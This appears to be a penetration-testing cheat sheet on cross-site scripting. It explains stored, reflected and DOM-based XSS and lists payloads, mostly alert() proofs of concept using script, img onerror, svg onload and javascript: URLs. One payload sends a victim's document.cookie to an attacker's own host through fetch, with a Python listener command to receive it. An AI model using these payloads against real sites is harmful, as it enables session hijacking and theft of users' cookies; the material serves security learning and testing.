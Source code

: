 Cross-Site Scripting (XSS) is a type of security vulnerability commonly found in web applications. It occurs when an attacker injects malicious code, usually in the form of scripts, into a web page or application, which is then executed by unsuspecting users who visit that page. The injected code can steal sensitive data, manipulate web content, or perform actions on behalf of the user without their consent.

There are three main types of XSS attacks:

1. **Stored XSS:** The malicious code is permanently stored on a server and is served to multiple users when they access a specific page or resource. This type of XSS can have a long-lasting impact as it affects all subsequent visitors to the compromised page.
    
2. **Reflected XSS:** In this case, the injected code is reflected off a web server and immediately executed in response to a user's request. Typically, the attacker tricks the user into clicking on a malicious link containing the payload.
    
3. **DOM-based XSS:** This type of XSS occurs when the client-side script in a web page manipulates the Document Object Model (DOM) without proper sanitization or validation, allowing an attacker to execute malicious code on the client-side.
# Basic script
```bash
<script>alert("hi")</script>
```

# Image script
With this type of script we are trying to upload an image, but providing a wrong source. We generate this error on purpose to execute the *onerror* javascript function that prints hi in a pop-upp suing alert.
```bash
<img src='x' onerror=alert("hi") />
```

Also, we can use the onclick javascript's function. If we upload an image with a valid source when we click the image it will spawn the pop-up with the alert message.
```bash
<img src"<valid url>" onclick=alert("hi") />
```

# Obtaining Cookies
If we can introduce XSS code into a petition that will be processed by the administration server, we can try to obtain it's cookie by running the following code: 
```bash
<img src=x onerror=fetch("own_ip:port/"+document.cookie);>
```
With this petition we induce the victim server to execute JS code. With this code the server tries to execute  a wrong image and on the error sends it's cookie to our machine. Before executing this payload is necessary to open a local port.
```bash
python3 -m http.server 80
```
# SVG script
When this code is injected into a web page, the SVG image will be loaded, and as soon as it's loaded, the `onload` event will fire, executing the JavaScript code and displaying the "1" in a pop-up alert box. It uses an SVG (Scalable Vector Graphics) element to trigger the JavaScript alert.

```bash
<svg onload=alert(1)>
```

- Example:
If we are attacking a web where whatever you insert will be assigned to the variable query, this option of XSS could be useful.
```bash
function trackSearch(query) {
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}

QUERY="><svg onload=alert(1)>
```

# DOM XSS using an anchor in jQuery
```bash
javascript:alert(document.cookie)
```
The code executes on the client side, within the user's browser. It doesn't rely on the server processing user input or delivering malicious content in the server response. Instead, it relies on manipulating the Document Object Model (DOM) of the current web page.

If an attacker can inject this code into a web page by manipulating user-generated content (e.g., through input fields or URLs), the injected code will execute within the user's browser. For example, an attacker might craft a URL like `https://example.com/?input=javascript:alert(document.cookie)` and trick a user into clicking it.

